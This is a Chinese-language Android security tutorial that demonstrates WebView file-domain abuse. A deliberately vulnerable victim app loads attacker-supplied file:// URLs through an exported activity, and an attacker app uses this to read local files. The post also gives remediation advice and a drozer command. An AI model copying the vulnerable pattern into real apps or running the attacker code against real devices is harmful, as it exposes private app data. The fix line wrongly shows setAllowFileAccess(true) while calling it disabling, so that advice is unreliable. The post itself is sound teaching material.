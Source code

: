 title: android webview file域控制不严格利用
abbrlink: 3957115657
date: 2019-04-29 13:37:55
tags: 
- android安全 
- webview
description: more
---
## webview file域控制不严格读取内部私有文件
必须条件：  
1.存在webview的activity组件可导出  
2.当前的webview允许使用file协议  

可利用app关键代码:  

```
android:exported="true"//api17及以上版本默认为false
webView.getSettings().setAllowFileAccess(true);//默认是true
```

MainActivity.java  

```
public class MainActivity extends AppCompatActivity {

    private WebView webView = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
//        setContentView(R.layout.activity_main);
        webView = new WebView(this);
        setContentView(webView);
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setAllowFileAccess(true);
        Intent mIntent = this.getIntent();
        Bundle bundle = mIntent.getBundleExtra("bundle");
        String url = bundle.getString("url");
        webView.loadUrl(url);
    }
}
```
AndroidManifest.xml  

```
<activity android:name=".MainActivity" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" android:exported="true" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
```

攻击app关键代码:  

MainActivity.java

```

public class MainActivity extends AppCompatActivity {

    public static final String LOAD_URL="file:///etc/hosts";
//    public static final String BAIDU="https://www.baidu.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        ComponentName componentName = new ComponentName("com.demo.victim","com.demo.victim.MainActivity");
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        intent.setComponent(componentName);
        bundle.putString("url",LOAD_URL);
        intent.putExtra("bundle",bundle);
        startActivity(intent);

    }
}
```

利用:    
先安装可利用app在安装攻击app，在打开攻击app  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/30/01.jpg)

修复:  
设置android:exported="false" 设置为不可导出  
webView.getSettings().setAllowFileAccess(true);明确禁用file协议

工具:  
使用drozer查看activity导出  
```
run app.activity.info -a com.xx.xx
```
代码:  
[webview](https://github.com/tea9/android_repetition/tree/master/webview)  

## LINNKS
[Android WebView File域同源策略绕过漏洞浅析](https://blog.csdn.net/jltxgcy/article/details/50678304)  
[WebView域控不严格读取内部私有文件实验](https://www.freebuf.com/articles/terminal/160061.html)  

